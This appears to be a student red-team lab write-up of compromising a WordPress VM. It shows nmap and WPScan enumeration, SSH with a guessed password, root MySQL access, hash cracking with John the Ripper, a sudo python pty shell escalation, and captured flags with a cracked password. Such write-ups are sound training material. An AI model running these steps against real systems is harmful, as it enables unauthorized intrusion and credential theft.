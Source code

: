                                  By: Rodrigo Quiroz
# Red Team: Summary of Operations
----------------------------------
### Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation


### Exposed Services

* Nmap scan results for each machine reveal the below services and OS details:
* **$ nmap -sV 192.168.1.110**
* ![alt text](https://github.com/Rodrig000/Project1Repository/blob/main/images/rl%20nmap%20scan.jpg)
_This scan identifies the services below as potential points of entry:_

#### Target 1
* **_Port 22/TCP Open SSH_**
* **_Port 80/TCP Open HTTP_**
* **_Port 111/TCP Open rcpbind_**
* **_Port 139/TCP Open netbios_**
* **_Port 445/TCP Open netbios_**

### The following vulnerabilities were identified on each target:

#### Target 1

_List of Critical Vulnerabilities_
* **_WordPress user numeration_**
* **_ssh into system and brute force into account_**
* **_Privilage escalation_**

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

#### Target 1


flag1.txt: **_b9bbcb33e11b80be759c4e844862482d_**


*Exploit Used*

* Exploit used: **used WPScan to enumerate the users so that it was possible to ssh into their account**
* Command: **$wpscan --url 192.168.1.110/wordpress $ wpscan --url 192.168.1.110 --enumerate -u**
![alert_text](https://github.com/Rodrig000/Project1Repository/blob/main/images/wpscan.jpg)
![alert_text](https://github.com/Rodrig000/Project1Repository/blob/main/images/users.jpg)

* we were able to target the user michael and ssh into that account by using michael as the password

_captured flag 1_

![alert_text](https://github.com/Rodrig000/Project1Repository/blob/main/images/flag1.jpg)

flag2.txt: **fc3fd58dcdad9ab23faca6e9a36e581c**

*Exploit Used*
* were able to navigate through the account directory and find flag 2 in the /var/www directory
* Commands: 
* **cd ./var/www**
* **ls -la**
* **cat flag2.txt**

_captured flag 2_

![alert_text](https://github.com/Rodrig000/Project1Repository/blob/main/images/flag2.jpg)

flag3.txt: **afc01ab56b50591e7dccf93122770cd2**

*Exploit Used*
* Entering MySQL database we were able to find flag 3
* Commands: 
* **mysql -u root -p**
* **show databases;**
* **use wordpress;**

_captured flag 3_

![alert_text](https://github.com/Rodrig000/Project1Repository/blob/main/images/flag3.jpg)

flag4.txt **715dea6c055b9fe3337544932f2941ce**

*Exploit Used*
* We were able to switch over to Stevens account by using john the ripper to crack his password using the hashes we found in the MySQL database "wp-users" location we were then able to use a sudo python command to obtain flag 4

* Commands:
* **ssh steven@192.168.1.110**
* **pink84;**
* ( _stevens password_ )
* **Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’** 
* **ls -la**
* **cat flag4.txt**

_capturing flag 4_

![alert_text](https://github.com/Rodrig000/Project1Repository/blob/main/images/flag4.jpg)

